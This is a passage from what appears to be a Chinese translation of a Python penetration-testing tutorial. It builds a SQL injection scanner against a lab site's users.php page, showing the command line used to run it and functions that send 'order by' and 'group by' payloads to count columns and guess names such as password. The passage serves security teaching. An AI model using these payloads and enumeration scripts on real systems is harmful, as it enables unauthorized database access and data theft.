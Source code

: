 为此，我们有数组错误，在`Mysql`错误中找到的字符串数量有限。然后，我们执行`requests`，如果发现错误，我们将 URL 添加到结果数组中，最后将在 launcher 函数中打印。

那么，让我们试试这个脚本。还记得我们在[第 4 章](4.html#1ENBI0-5a228e2885234f4ba832bb786a6d0c80)、*资源发现*中用暴力脚本识别的有趣文件吗？我们需要特别关注一个文件。是`/users.php`：

![](../images/00067.jpeg)

此文件似乎接受输入并返回该用户 ID 的用户和行。让我们看看如果我们放置`1`会发生什么。您可以看到，在这种情况下，我们得到了一个带有`ID: 1`、`Name: johnny`和`role: test`的响应：

![](../images/00068.jpeg)

杰出的让我们复制 URL 作为脚本的输入。

让我们转到控制台并使用以下参数运行 SQL injector：

```
python SQLinjector-0.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

这些是我们从浏览器复制的 URL 和我们为本练习创建的注入文件。

接下来，按*键进入*：

![](../images/00069.jpeg)

我们可以看到脚本检测到由以下字符生成的 SQL 错误；单引号和括号。

我们可以检查浏览器以查看这些字符生成的错误。现在，在浏览器中，将此`1`替换为`'`并按*键进入*：

![](../images/00070.jpeg)

我们可以看到，在生成 SQL 错误时，我们可以操作该查询。

让我们继续改进 SQL 注入器脚本。

现在，打开脚本`SQLinjector-1.py`。您可以看到我们有两个新功能，`detect_columns`和`detect_columns_names`：

```
def detect_columns(url):
  new_url= url.replace("FUZZ","admin' order by X-- -")
  y=1
  while y < 20:
    req=requests.get(new_url.replace("X",str(y)))
    if req.content.find("Unknown") == -1:
      y+=1
    else:
      break
  return str(y-1)

def detect_columns_names(url):
  column_names = ['username','user','name','pass','passwd','password','id','role','surname','address']
  new_url= url.replace("FUZZ","admin' group by X-- -")
  valid_cols = []
  for name in column_names:
    req=requests.get(new_url.replace("X",name))
    if req.content.find("Unknown") == -1:
      valid_cols.append(name)
    else:
      pass
  return valid_cols
```
